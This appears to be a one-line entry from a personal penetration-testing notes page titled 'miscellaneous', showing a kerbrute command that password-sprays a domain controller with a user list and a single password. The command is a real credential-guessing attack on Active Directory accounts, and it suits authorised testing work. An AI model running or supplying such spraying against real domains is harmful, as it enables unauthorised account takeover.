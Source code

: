 ```yaml
---
title: "miscellaneous"
date: 2020-07-17T20:59:33+02:00
draft: false
---
```


#### Password spray with kerbrute

```$ .\kerbrute.exe passwordspray --dc V-DC2 -d DOMAIN.LOCAL -o spray.txt users.txt 'PASSWORD'```



